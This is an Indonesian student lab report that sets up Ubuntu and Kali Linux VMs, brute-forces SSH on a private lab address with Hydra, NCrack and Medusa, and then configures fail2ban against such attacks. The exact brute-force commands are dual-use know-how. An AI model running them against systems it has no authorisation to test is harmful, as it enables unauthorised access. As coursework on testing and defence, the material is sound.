 <b> TUGAS 1 PKSJ </b>
# Uji Penetrasi

## Anggota Kelompok :
1. Aldi Febriansyah - 5114100015
1. Trastian Satria W - 5114100016
1. Kevin A Fachreza - 5114100128

## Uji Penetrasi 1
### Install
#### Install Ubuntu Server

1. Download Ubuntu
1. Buka Virtual Box
1. Pilih New
1. Masukkan nama, dan pilih tipe ubuntu
1. Masukkan jumlah RAM sesuai kebutuhan
1. Pilih Create Virtual Hardisk Now
1. Pilih VHD
1. Pilih Fixed Size
1. Masukkan Ukuran Hardisk, sesuai kebutuhan
1. Pilih ISO Ubuntu
1. Klik Install
1. Setelah Install, ikuti menu Onboarding sesuai pada ubuntu

#### Install Kali Linux

1. Download Kali Linux
1. Buka Virtual Box
1. Pilih New
1. Masukkan nama, dan pilih tipe Linux
1. Masukkan jumlah RAM sesuai kebutuhan
1. Pilih Create Virtual Hardisk Now
1. Pilih VHD
1. Pilih Fixed Size
1. Masukkan Ukuran Hardisk, sesuai kebutuhan
1. Pilih ISO Kali Linux
1. Klik Install
1. Setelah Install, ikuti menu Onboarding sesuai pada Kali

#### Install SSH Server

Pada instalasi ubuntu server, kami sudah meng include install openssh pada server. Namun untuk menginstall secara manual bisa menggunakan cara dibawah.

1. Untuk install ssh server ketik
```
sudo apt-get install openssh-server
```

2. Cek jika install berhasil menggunakan command berikut
```
service ssh status
```
https://user-images.githubusercontent.com/17487644/32114550-0fdae0cc-bb6e-11e7-8987-bf3d03952e06.PNG
#### Install Tools Medusa, THC-Hydra, NCrack

1. THC-Hydra, NCrack, dan Medusa merupakan tools default Kali, sehingga tidak perlu install

### Brute Force Menggunakan Tools

#### Hydra

1. Hydra membutuhkan list password, maka dibuat file password bernama """""""
1. Jalankan Hydra
```
hydra -l ubuntuserver -P '/root/Desktop/passw.txt' 192.168.1.8 -t 4 ssh
```
![alt text](https://github.com/kevinfachreza/pksj/blob/master/tugas-1/img/no%20counter/1hydra.PNG?raw=true)

#### NCrack

1. Jalankan NCrack

```
ncrack -p 22 --user ubuntuserver -P '/root/Desktop/passw.txt' 192.168.1.8 
```
![alt text](https://github.com/kevinfachreza/pksj/blob/master/tugas-1/img/no%20counter/2-ncrack.PNG?raw=true)

#### Medusa

1. Jalankan Medusa

```
medusa -u ubuntuserver -P '/root/Desktop/passw.txt' -h 192.168.1.8 -M ssh 
```
![alt text](https://github.com/kevinfachreza/pksj/blob/master/tugas-1/img/no%20counter/med1.PNG?raw=true)
![alt text](https://github.com/kevinfachreza/pksj/blob/master/tugas-1/img/no%20counter/med2.PNG?raw=true)

#### Uji Masuk SSH
1. Masuk ke SSH

```
ssh ubuntuserver@192.168.1.8
```
![alt text](https://github.com/kevinfachreza/pksj/blob/master/tugas-1/img/no%20counter/coba%20masuk%20ssh%20server.PNG?raw=true)


## Uji Penetrasi 2

1. Install fail2ban

```
sudo apt-get install fail2ban
```

2. Buka konfigurasi fail2ban

```
sudo nano /etc/fail2ban/jail.conf
```

3. Atur bantime. Bantime merupakan lamanya waktu jika host di ban
4. Atur maxretry. Max retry merupakan maksimal percobaan gagal
5. Atur findtime. Findtime merupakan waktu diantara percobaan gagal 1 dan terakhir.

6. Cek Iptables

```
sudo iptables -S
```

7. Restart fail2ban

```
sudo service fail2ban start
```

8. Lihat perubahan iptables

